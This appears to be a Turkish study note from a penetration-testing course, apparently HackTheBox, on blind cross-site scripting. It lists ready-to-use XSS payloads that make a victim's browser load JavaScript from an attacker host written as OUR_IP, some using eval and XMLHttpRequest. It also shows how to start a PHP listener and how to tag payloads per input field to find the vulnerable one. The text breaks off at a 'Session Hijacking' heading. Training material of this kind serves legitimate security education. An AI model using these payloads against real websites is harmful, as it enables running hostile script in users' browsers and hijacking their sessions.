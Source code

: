 
###  Remote Komut Dosyası Yükleme
HTML'de JavaScript kodunu script etiketleri içine yazabiliriz, ancak aşağıdaki gibi URL'sini sağlayarak uzak bir komut dosyası da ekleyebiliriz:

```html
<script src="http://OUR_IP/script.js"></script>
```

İstenen komut dosyası adını script.js'den enjekte ettiğimiz alanın adına değiştirebiliriz, böylece VM'mizde isteği aldığımızda, komut dosyasını çalıştıran savunmasız giriş alanını aşağıdaki gibi tanımlayabiliriz:

```html
<script src="http://OUR_IP/username"></script>
```


https://xsshunter.trufflesecurity.com/ --> Blind xss injection'u için biçilmiş kaftan . 

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```


Gördüğümüz gibi, çeşitli yükler '> gibi bir enjeksiyonla başlar, bu da girdimizin backend'de nasıl işlendiğine bağlı olarak çalışabilir veya çalışmayabilir. Daha önce XSS Keşfi bölümünde belirtildiği gibi, kaynak koda erişimimiz olsaydı (yani, bir DOM XSS'de), başarılı bir enjeksiyon için gerekli payload'u tam olarak yazmak mümkün olurdu. Bu nedenle Blind XSS, DOM XSS türü güvenlik açıklarında daha yüksek bir başarı oranına sahiptir.


Payload göndermeye başlamadan önce, bir önceki bölümde gösterildiği gibi netcat veya php kullanarak VM'mizde bir dinleyici başlatmamız gerekir:

```shell-session
M1R4CKCK@htb[/htb]$ mkdir /tmp/tmpserver
M1R4CKCK@htb[/htb]$ cd /tmp/tmpserver
M1R4CKCK@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

```html
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
...SNIP...
```


## Session Hijacking

